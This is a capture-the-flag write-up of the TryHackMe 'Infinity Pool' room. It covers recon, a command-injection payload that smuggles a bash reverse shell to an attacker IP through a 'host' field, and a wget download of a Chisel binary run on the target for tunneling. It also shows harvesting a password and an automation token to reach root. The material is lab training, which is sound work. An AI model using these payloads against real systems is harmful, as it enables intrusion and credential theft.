# TryHackMe Hacker Holidays - Day 11

**Room:** Infinity Pool

**Room URL:** https://tryhackme.com/room/hh-infinitypool-5b3548af

## Introduction

This challenge focused on service enumeration, `robots.txt` and client-side JavaScript disclosure, OS command injection, reverse shell access, internal port discovery, SSH tunneling with Chisel to reach localhost-only services, credential and token harvesting from a dashboard application, and privilege escalation to root using a leaked automation token. 

## Task 1 - Hacker Holidays Storyline: Act 3 - Reckoning



## Task 2 - Hacker Holidays: Day 11

After starting the machine, I connected to the lab network from Kali Linux using OpenVPN. I first verified that the target system was reachable by sending ICMP echo requests.



For recon, I used Nmap to identify open ports, running services, and their versions with `nmap -sV -sC <target_IP>`. The scan found two open ports: SSH (22) and HTTP (80). SSH didn't offer much information, but the HTTP service was running on Gunicorn, a Python server, and the scan flagged `http-robots.txt: 2 disallowed entries`, which looked worth investigating.



I retrieved `robots.txt` using `curl http://<target_IP>/robots.txt`, and the output revealed two hidden/disallowed paths.



I then browsed to `http://<target_IP>`, the URL given in the task, and reviewed the page source. This led me to a JavaScript file named `app.js` under `/static`. Opening the file revealed some content that didn't look like it was meant to be publicly exposed.





Based on what I found in `app.js`, I tried browsing to `http://<target_IP>/status`. This page had a field expecting an IP address. To understand how the application behaved, I entered a random IP and clicked the Check button - this caused the server to send an ICMP ping to the entered address, which suggested the input might be vulnerable to OS command injection.





To get a reverse shell, I opened a separate terminal and started a listener with `nc -lvnp 5555`, then ran the following command injection payload against the `/internal/netcheck` endpoint in another terminal:

```bash
curl -s http://<target_IP>/internal/netcheck --data-urlencode 'host=127.0.0.1; bash -c "bash -i >& /dev/tcp/<attacker_IP>/5555 0>&1"'
```

As soon as the command ran, I received a reverse shell on the listener as the `web@tryhackme` user.





I searched for a file named `user.txt` (since flags are typically stored in `.txt` files) and found one under the `/home/web` directory. Reading its contents revealed the user flag.



I ran `ss -tulpn` to list everything listening on TCP/UDP ports on the box. The results showed several ports bound to localhost (`127.0.0.1`) only, including `8080`, `8088`, `8089`, `3306`, and `3000`.



To quickly check all of these localhost-only ports at once instead of testing them one by one, I used the following loop:

```bash
for p in 3000 8080 8088 8089 9000 3306 4573 5038 22 80; do echo "===== $p ====="; curl -s -m 3 http://127.0.0.1:$p/ | head -c 200; echo; done
```

Most ports returned a 404 or nothing useful, except port 3000, which returned a page titled "Watchtower" - but it only accepted connections from localhost.



To reach that localhost-only service, I first considered generating an SSH keypair to access the box directly, and checked whether a `.ssh` folder existed. It did exist, but it was owned by root, so writing an SSH key there was blocked.



I decided to use Chisel to tunnel into the target instead. I installed it on my attacking machine with `sudo apt install chisel`.



I opened a new terminal and started a Chisel server in reverse mode:

```bash
~/pivot/chisel server -p 9999 --reverse
```



On the target machine, I downloaded the Chisel client binary and made it executable:

```bash
cd /tmp && wget http://192.168.160.95:8000/chisel -O chisel && chmod +x chisel
```



I then ran the Chisel client to forward the relevant localhost ports back to my attacking machine:

```bash
/tmp/chisel client 192.168.160.95:9999 R:3000:127.0.0.1:3000 R:8080:127.0.0.1:8080 R:9000:127.0.0.1:9000
```



With the tunnel established, I checked port 3000 on my own localhost using `curl -sI http://127.0.0.1:3000/`.



I then ran `curl -s http://127.0.0.1:3000/` to pull more information from the endpoint and found two service endpoints referenced in the HTML content.



I checked both endpoints. `/api/health` didn't return much useful information, but `/api/config` returned details including a password, portal URL, and username.



I navigated to the portal URL found in the `/api/config` response and logged in using the username and password it revealed.



The login was successful.



I created a new dashboard and added a few widgets to look for useful information - CallForwarding, RSS Feeds, and Voicemail. CallForwarding and RSS Feeds didn't reveal anything useful, but the Voicemail widget exposed an "Automation" key, which looked like it could be a token used for authenticating to a backend service.



I started a new netcat listener on port 4444 and used the automation key to trigger command execution on the backend. As soon as I ran the command, I received a shell as the root user on another terminal.





I located a file named `root.txt` under the `/root` directory, and reading its contents revealed the root flag.


